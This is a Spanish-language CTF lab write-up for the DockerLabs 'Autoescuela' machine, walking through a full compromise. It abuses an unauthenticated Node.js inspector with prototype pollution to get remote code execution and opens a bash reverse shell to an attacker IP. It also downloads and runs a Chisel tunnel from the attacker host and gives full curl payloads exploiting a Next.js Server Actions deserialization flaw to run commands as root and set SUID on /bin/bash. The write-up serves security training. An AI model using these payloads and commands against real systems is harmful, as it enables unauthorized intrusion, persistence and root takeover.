








# 🧠 **Informe de Pentesting – Máquina: Autoescuela**

### 💡 **Dificultad:** Fácil

📦 **Plataforma:** DockerLabs


---

# 🚀 **Despliegue de la Máquina**

Para desplegar la máquina vulnerable, primero se descomprime el archivo empaquetado proporcionado y, posteriormente, se ejecuta el script encargado de levantar el entorno automatizado en Docker:

```bash
unzip autoescuela.zip
sudo bash auto_deploy.sh autoescuela.tar
```


Este proceso iniciará de manera automática los contenedores necesarios para la simulación del laboratorio.

---

# 📶 **Comprobación de Conectividad**

Antes de comenzar la fase de reconocimiento activo, se verifica la disponibilidad y conectividad directa con la máquina objetivo mediante el envío de solicitudes ICMP:

```bash
ping -c1 172.17.0.2
```


La respuesta exitosa confirma que el host objetivo se encuentra activo, operativo y accesible dentro del segmento de red local.

---

# 🔍 Escaneo de Puertos

## 🔎 Enumeración Inicial de Servicios

Se realiza un escaneo completo sobre la totalidad del rango de puertos TCP con el objetivo de identificar cuáles de ellos se encuentran expuestos y aceptando conexiones:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```


Parámetros utilizados y su justificación técnica:

* `-p-` → Escanea los 65535 puertos TCP existentes.
* `--open` → Filtra los resultados para mostrar únicamente los puertos abiertos.
* `-sS` → Realiza un sondeo de tipo TCP SYN (escaneo sigiloso/semiabierto).
* `--min-rate 5000` → Establece el envío de paquetes a una tasa mínima de 5000 por segundo para acelerar el proceso.
* `-n` → Desactiva la resolución DNS inversa para agilizar el análisis.
* `-Pn` → Omite el descubrimiento previo de hosts mediante ICMP, asumiendo que el objetivo está activo.

---

## 📌 Puertos Detectados

Durante la fase de enumeración inicial se identificaron los siguientes puertos abiertos:

* `8080/tcp` → HTTP
* `9229/tcp` → Node.js (V8 Inspector): Este puerto expone el protocolo de depuración de Node.js basado en Chrome DevTools. Permite a los desarrolladores conectarse remotamente al proceso en ejecución para inspeccionar el estado de la memoria, evaluar código en tiempo real, auditar el rendimiento y depurar scripts de forma interactiva directamente sobre el motor V8 del servidor.

---

## 🧩 Enumeración de Servicios y Versiones

Con los puertos específicos ya identificados, se procede a realizar un escaneo dirigido para determinar de forma precisa los servicios y las versiones de software que se ejecutan en ellos:

```bash
nmap -sCV -p8080,9229 172.17.0.2
```


---

# 🧭 Reconocimiento Web

## 🖥️ Acceso Inicial

Se interactúa inicialmente con el servicio HTTP principal accediendo a la siguiente URL a través del navegador:

```bash
http://172.17.0.2
```


La aplicación web responde correctamente a las solicitudes, aunque a primera vista presenta una interfaz con contenido y funcionalidades bastante limitadas.

---

# 🗂️ Enumeración de Directorios

Con el propósito de descubrir recursos ocultos, archivos confidenciales o directorios no indexados en el servidor, se realiza un ataque de fuerza bruta sobre las rutas web empleando la herramienta Gobuster.

Para el puerto `8080`:

```bash
gobuster dir -u http://172.17.0.2:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .env,.php,.bak,.old,.zip,.txt -b 403,404 --exclude-length 8068
```


Como resultado de este primer análisis, se identificaron los siguientes recursos de interés:

```bash
/contacto
/css

```

Posteriormente, se replica el procedimiento de auditoría sobre el puerto `9229`:

```bash
gobuster dir -u http://172.17.0.2:9229/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .env,.php,.bak,.old,.zip,.txt -b 403,404 --exclude-length 8068
```


A través de esta segunda búsqueda en el puerto del inspector, se localizan las siguientes rutas expuestas:

```bash
/JSON
/json
```

Al confirmar la presencia activa del servicio de depuración de Node.js y validar la exposición de sus endpoints JSON, se intenta establecer una conexión remota interactiva utilizando el depurador nativo:

```bash
node inspect 172.17.0.2:9229 
```


El servicio expuesto en el puerto 9229 permite la conexión directa mediante el depurador nativo de Node.js sin requerir credenciales de autenticación si está mal configurado. El error o advertencia inicial ocurre porque la interfaz de depuración está diseñada principalmente para entornos locales seguros. Al intentar interactuar remotamente, el inspector advierte sobre los riesgos de seguridad, ya que cualquier usuario de la red que alcance este puerto obtiene la capacidad de evaluar código arbitrario con los mismos privilegios del proceso.

Dado que el entorno carece de autenticación, la conexión se establece con éxito (entorno `debug>`), lo que abre una ventana de explotación. El vector de ataque se centrará en abusar de esta consola de depuración para forzar una Contaminación de Prototipos (*Prototype Pollution*) y, consecuentemente, lograr la ejecución remota de código (RCE) en el servidor objetivo.

A continuación, se detalla de forma analítica la secuencia de comandos ejecutados dentro del depurador interactivo, su estructura y su propósito técnico:

### 1. Comprobación de versiones del entorno

```javascript
exec('process.versions')
```

* **Estructura:** Invoca al objeto global `process` de Node.js para acceder a su propiedad interna `versions`.
* **Propósito:** Muestra detalladamente las versiones del núcleo de Node.js (ej. `node: '22.22.2'`) y sus componentes asociados (como `acorn`, `ada`, etc.). Esto permite mapear con precisión el entorno y validar si existen vulnerabilidades públicas indexadas para dicha versión específica.

### 2. Intento de ejecución nativa (Bypass inicial)

```javascript
exec('const spawn = process.binding("spawn_sync"); const result = spawn.spawn({file:"/bin/sh",args:["/bin/sh","-c","id"],stdio:[{type:"pipe",readable:true,writable:false},{type:"pipe",readable:false,writable:true},{type:"pipe",readable:false,writable:true}],envPairs:[]}); result.output[1]')
```

* **Estructura:** Apunta a funciones internas de bajo nivel del motor (`process.binding("spawn_sync")`) para forzar la creación de un proceso hijo que invoque directamente al binario del sistema `/bin/sh` y ejecute el comando de diagnóstico `id`.
* **Propósito:** Evalúa si es posible evadir de forma directa las restricciones básicas del entorno e interactuar con el sistema operativo. La respuesta estructurada como un `Uint8Array(57)` confirma que el sistema operativo procesa las instrucciones, aunque la salida se reciba inicialmente en formato de bytes.

### 3. Inyección del método require en el prototipo global

```javascript
exec('Object.prototype.require = function(m) { return process.mainModule.require(m) }')
```

* **Estructura:** Altera directamente la estructura raíz de JavaScript (`Object.prototype`), inyectando de forma maliciosa una función personalizada llamada `require` que, a nivel interno, llama al `require` legítimo del módulo principal de la aplicación.
* **Propósito:** Este paso consolida la explotación de *Prototype Pollution*. En entornos de ejecución controlados o *sandboxes*, la función global de importación `require` suele estar restringida o deshabilitada. Al contaminar el prototipo base, cualquier objeto nuevo o vacío (`{}`) que se cree posteriormente heredará de forma automática y transparente el método `require`.

### 4. Verificación de la persistencia de la contaminación

```javascript
exec('Object.prototype.polluted = "yes"; polluted')
```

* **Estructura:** Asigna una nueva propiedad arbitraria (`polluted = "yes"`) al prototipo base general y, acto seguido, intenta consultar de forma directa la variable.
* **Propósito:** Funciona como un control de calidad clásico dentro del proceso de explotación para verificar de forma inequívoca que los cambios en el prototipo raíz han persistido correctamente y que el entorno es plenamente vulnerable.

### 5. Ejecución arbitraria de comandos mediante el bypass

```javascript
exec('({}).require("child_process").execSync("id").toString()')
```

* **Estructura:** * `({})`: Declara un objeto vacío en tiempo de ejecución.
* `.require("child_process")`: Aprovecha la contaminación del paso 3 para heredar de forma instantánea el método `require`, cargando con éxito el módulo del sistema operativo `child_process`.
* `.execSync("id")`: Ejecuta sincrónicamente el comando del sistema operativo `id`.
* `.toString()`: Realiza la conversión de la salida binaria a texto plano legible.


* **Propósito:** Valida que se ha alcanzado una Ejecución Remota de Código (RCE) en su totalidad. El retorno de la cadena conteniendo los identificadores del sistema (`uid=1001(webuser) ...`) demuestra que el ataque ha sido exitoso y que los comandos se ejecutan bajo los privilegios del usuario de Linux `webuser`.

### 6. Establecimiento de la Reverse Shell (Consola Reversa)

Se configura un puerto en modo de escucha en la máquina del auditor de seguridad:

```bash
sudo nc -lvnp 4444   
```

Posteriormente, se transmite el payload de red a través de la sesión activa del depurador:

```javascript
exec('({}).require("child_process").execSync("bash -c \'bash -i >& /dev/tcp/192.168.0.100/4444 0>&1\'")')
```

* **Estructura:** Utiliza la técnica de desvío de prototipos previamente explicada, pero reemplaza el comando de diagnóstico por un payload clásico de Bash para la redirección de flujos de red: `bash -i >& /dev/tcp/[IP]/[PUERTO] 0>&1`.
* `bash -i`: Genera una sesión interactiva de Bash.
* `>& /dev/tcp/...`: Redirige de manera bidireccional los canales de entrada estándar, salida estándar y error estándar hacia la dirección IP del atacante (`192.168.0.100`) apuntando al puerto abierto `4444`.


* **Propósito:** Obliga al servidor víctima a iniciar una conexión de red saliente hacia el host del atacante, otorgando una terminal de comandos interactiva directa (Reverse Shell).

Como resultado de este proceso, se obtiene una nueva shell interactiva en el sistema.


Para garantizar la estabilidad de la shell, la correcta gestión de señales del teclado (como `Ctrl + C`) y el uso de editores de texto, se procede a realizar el tratamiento completo de la TTY:

```bash
script /dev/null -c bash
```

*(Presionar la combinación de teclas Ctrl + Z para suspender la sesión)*

```bash
stty raw -echo; fg

```

```bash
reset xterm

```

```bash
export TERM=xterm

```

```bash
export SHELL=/bin/bash

```

Una vez estabilizada la terminal, se inspecciona el directorio personal del usuario `/home/webuser`, constatando la existencia de un archivo de texto descriptivo.


A continuación, se analizan los servicios que se encuentran escuchando internamente en el sistema operativo mediante el siguiente comando:

```bash
netstat -tuln
```

El resultado del comando revela la existencia de un servicio que se ejecuta de forma exclusiva a nivel local (localhost) en el socket `127.0.0.1:3000`. Con el fin de auditar dicha aplicación desde el equipo atacante, se implementa una tunelización de red empleando la herramienta Chisel:

Enlace del proyecto oficial: [https://github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)

Para este entorno, se seleccionó y descargó el binario compilado correspondiente: `chisel_1.11.5_linux_amd64.gz`.

Se procede con su descompresión en la máquina local:

```bash
gunzip -d chisel_1.11.5_linux_amd64.gz
```

Se le asignan los correspondientes permisos de ejecución:

```bash
chmod +x chisel_1.11.5_linux_amd64
```

Se renombra el archivo para simplificar su invocación en la terminal:

```bash
mv chisel_1.11.5_linux_amd64 Chisel
```

Posteriormente, se inicializa un servidor web temporal con Python en la máquina local para transferir el binario al host comprometido:

```bash
sudo python3 -m http.server 80
```



Desde la shell de la máquina víctima, nos posicionamos en el directorio temporal `/tmp` (el cual cuenta habitualmente con permisos de escritura genéricos):

```bash
cd /tmp
```

Se descarga el binario de Chisel aprovechando el servidor web previamente desplegado:

```bash
curl -O http://192.168.0.100/Chisel
```

Se le otorgan los permisos de ejecución requeridos:

```bash
chmod +x Chisel
```


Finalmente, se inicializa la herramienta en ambos extremos para entablar el túnel reverso:

* **Máquina Atacante (Servidor):**

```bash
./chisel server -p 9000 --reverse
```

* **Máquina Víctima (Cliente):**

```bash
./chisel client 192.168.0.100:9000 R:3001:127.0.0.1:3000
```


Con el reenvío de puertos establecido correctamente, es posible interactuar de forma directa con la aplicación interna desde el navegador de la máquina local apuntando a la dirección del túnel:

```bash
http://127.0.0.1:3001/
```


Tras recopilar la información del entorno web interno y analizar la estructura de las peticiones que gestiona, se deduce que la aplicación podría ser vulnerable al fallo crítico conocido como **CVE-2025-55182**.

> **Descripción del Fallo (CVE-2025-55182):** La vulnerabilidad CVE-2025-55182 es un fallo crítico de Server-Side Request Forgery (SSRF) y Remote Code Execution (RCE) que afecta a frameworks modernos basados en Node.js, como Next.js, al procesar Server Actions maliciosas. Ocurre debido a una validación insuficiente en la deserialización de datos estructurados que se envían a través de peticiones HTTP `POST`. Un atacante puede manipular los encabezados del framework y las propiedades internas de los objetos (enlazándose a cadenas de Prototype Pollution) para evadir las restricciones de aislamiento de la aplicación, logrando ejecutar comandos arbitrarios directamente en el sistema operativo del servidor.

Con el objetivo de automatizar y validar de forma segura la presencia de este vector de ataque, se desarrolló un script en Python personalizado (disponible en el repositorio personal de GitHub), el cual se encarga de testear las respuestas de la aplicación ante cargas útiles controladas.

Al ejecutar la herramienta de desarrollo propio, se obtienen los siguientes indicadores analíticos:

* **ESTADO:** POSIBLEMENTE EXPUESTO
* **CONFIDENCIA:** ALTA (8 puntos)

La elevada métrica de confianza obtenida justifica la realización de una prueba de concepto manual para explotar de forma definitiva el fallo.




---

# 💥 Explotación y Escalada de Privilegios

Para verificar de manera concluyente la vulnerabilidad, se construye y transmite una solicitud manipulada dirigida al servidor web tunelizado utilizando el comando `cURL`:

```bash
curl -X POST http://localhost:3001/ \
  -H "Content-Type: multipart/form-data; boundary=----Boundary" \
  -H "Next-Action: test" \
  -H "Accept: text/x-component" \
  --data-binary $'------Boundary\r\nContent-Disposition: form-data; name="0"\r\n\r\n{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\\"then\\":\\"$B0\\"}","_response":{"_prefix":"process.mainModule.require(\'child_process\').execSync(\'id\').toString()","_formData":{"get":"$1:constructor:constructor"}}}\r\n------Boundary\r\nContent-Disposition: form-data; name="1"\r\n\r\n[]\r\n------Boundary--\r\n'

```

### 📝 Análisis Técnico del Comando (Validación RCE):

Este comando realiza una petición HTTP `POST` hacia la aplicación local que corre en el puerto 3001 a través del túnel de Chisel.

* Utiliza el tipo de contenido `multipart/form-data` y el encabezado `Next-Action` para simular la ejecución de una Server Action legítima de la aplicación.
* El núcleo del ataque reside en la carga binaria (`--data-binary`): se inyecta un payload en formato JSON diseñado específicamente para explotar la vulnerabilidad de deserialización. Mediante la propiedad `_prefix`, se fuerza al motor de Node.js a cargar el módulo nativo `child_process` y ejecutar de forma síncrona el comando de Linux `id`.
* Al procesarse la respuesta, el servidor devuelve la salida del sistema operativo reflejando los identificadores de usuario, confirmando que la ejecución remota de código (RCE) es efectiva y se ejecuta bajo el contexto del usuario administrador (`root`).

---

Al constatar que los comandos inyectados se procesan en el sistema con los privilegios más altos (`root`), se decide alterar las propiedades del sistema de archivos para establecer persistencia. Para ello, se envía un segundo payload diseñado para asignar permisos SUID al binario nativo de la shell Bash:

```bash
curl -X POST http://localhost:3001/ \
  -H "Content-Type: multipart/form-data; boundary=----Boundary" \
  -H "Next-Action: test" \
  -H "Accept: text/x-component" \
  --data-binary $'------Boundary\r\nContent-Disposition: form-data; name="0"\r\n\r\n{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\\"then\\":\\"$B0\\"}","_response":{"_prefix":"process.mainModule.require(\'child_process\').execSync(\'chmod u+s /bin/bash\').toString()","_formData":{"get":"$1:constructor:constructor"}}}\r\n------Boundary\r\nContent-Disposition: form-data; name="1"\r\n\r\n[]\r\n------Boundary--\r\n'

```

### 📝 Análisis Técnico del Comando (Persistencia):

Una vez confirmada la ejecución de comandos como `root`, este segundo cURL replica exactamente la misma estructura de explotación, pero altera la carga útil del payload. Invocando la instrucción `chmod u+s /bin/bash` a través del parámetro `execSync`, se le asigna el bit **SUID** (Set Owner User ID) al binario nativo de la terminal Bash. Esto habilita a cualquier usuario sin privilegios del sistema para que pueda ejecutar el intérprete de comandos manteniendo la identidad y las capacidades de acceso de su propietario original (el superusuario `root`).

---

## 👑 Escalada Root Completa

Para consolidar el acceso total y pasar de la consola limitada del usuario intermedio al control completo del sistema, se realizan las últimas dos comprobaciones en el prompt de la máquina víctima:

```bash
ls -la /bin/bash

```

* **Análisis:** Permite listar detalladamente los permisos vigentes asignados al binario de Bash. Tras la explotación del cURL, la presencia del caracter **`s`** en los bits de control del propietario (ej. `-rwsr-xr-x`) corrobora de forma física que el bit SUID se fijó correctamente en el sistema de archivos.

```bash
bash -p

```

* **Análisis:** Ejecuta de forma efectiva una nueva sesión del intérprete de comandos de Bash haciendo uso del parámetro de modo privilegiado (`-p`). Esta bandera es indispensable, ya que instruye a Bash para que no descarte automáticamente los privilegios heredados a través de la propiedad SUID, forzando la apertura de una terminal con el identificador efectivo de usuario (EUID) asignado a `root`.


